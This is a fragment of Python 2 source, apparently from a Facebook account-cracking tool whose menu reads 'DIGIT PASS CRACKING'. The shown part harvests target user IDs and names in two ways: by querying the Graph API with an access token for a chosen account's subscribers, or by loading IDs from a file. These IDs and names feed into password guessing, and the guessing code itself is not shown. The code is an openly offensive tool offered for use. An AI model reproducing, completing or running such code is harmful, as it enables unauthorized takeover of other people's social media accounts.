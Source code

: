 		os.system("clear")

		logo()

		print("")

		print("\t\033[93;1m  DIGIT PASS CRACKING")

		print("")

		try:

			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))

			print("")

		except:id_limit=1

		for t in range(id_limit):

			t +=1

			idt = raw_input("\033[93;1m  INPUT FOLLOWER ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))

			try:

				for i in requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999").json()["data"]:

					uid = i["id"].encode('utf-8')

					na = i["name"].encode('utf-8')

					id.append(uid+"|"+na)

			except KeyError:

				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")

			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))

		time.sleep(3)

	elif select =="3":

		os.system("clear")

		logo()

		print("")

		print("\t\033[93;1m  DIGIT PASS CRACKING")

		print("")

                filelist = raw_input('\033[92;1m  INPUT FILE: ')

		try:

			for line in open(filelist, 'r').readlines():

				id.append(line.strip())

		except IOError:
